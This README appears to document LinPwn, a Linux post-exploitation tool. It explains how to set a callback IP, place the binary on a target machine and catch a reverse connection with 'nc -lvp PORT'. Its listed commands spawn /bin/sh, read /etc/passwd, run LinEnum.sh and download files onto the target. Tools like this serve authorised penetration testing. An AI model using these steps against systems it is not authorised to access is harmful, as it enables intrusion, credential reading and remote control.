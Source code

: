 # LinPwn

![LinPwn](https://github.com/3XPL017/LinEnum/blob/master/images/LinPwn.png)
<br>
## About
LinPwn is a interactive tool created to assist you in post exploitation enumeration and privilege escalation.<br>
## Connection
Set your IP and port you want it to connect to in the Connection class.<br>
Place the LinPwn binary on the target machine.<br>
Run `nc -lvp PORT` on your machine and then run LinPwn on the target machine to get a connection.
## Usage
1. shell - This command Executes /bin/sh<br>
Example usage:`Shell> id`<br> 
Type exit to return to LinPwn.<br>
2. readfile - This command will print the contents of a file.<br>
Example usage: `ReadFile> /etc/passwd`<br>
Type exit to return to LinPwn.<br>
3. enumerate - this command runs LinEnum.sh
Example usage: `>>> enumerate` 
4. download - This command downloads a file on the target machine
Example usage: `Download> https://exampleurl.com/file_to_download`
## Compiling
I included a file called build.sh this is optional run `bash build.sh` to view the build options if you wish to use them. 
 
